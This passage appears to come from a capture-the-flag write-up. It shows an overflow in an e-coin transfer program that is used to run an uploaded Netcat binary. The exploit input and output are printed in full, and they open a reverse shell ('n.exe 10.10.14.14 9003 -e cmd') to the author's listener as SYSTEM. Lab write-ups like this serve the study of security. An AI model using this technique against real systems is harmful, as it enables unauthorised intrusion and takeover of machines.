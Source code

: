 The program overwrites on byte 32, which means another program can be uploaded on the box and executed instead of _transfer.exe_.
I will upload [Netcat for Windows](https://eternallybored.org/misc/netcat/) and put it in _C:\Users\Corint\n.exe_.

Appending 32 _A's_ and then the command to execute:
```
Please enter the amount of e-coins you would like to transfer:
[$] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\Users\Cortin\n.exe 10.10.14.14 9003 -e cmd
[$] Transfering $AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\Users\Cortin\n.exe 10.10.14.14 9003 -e cmd using our e-coin transfer application.
[$] Executing e-coin transfer tool: C:\Users\Cortin\n.exe 10.10.14.14 9003 -e cmd
```

In the third line, it shows that it executes _"C:\Users\Cortin\n.exe 10.10.14.14 9003 -e cmd"_ and the listener on my IP and port 9003 starts a reverse shell connection as _NT Authority\SYSTEM_!
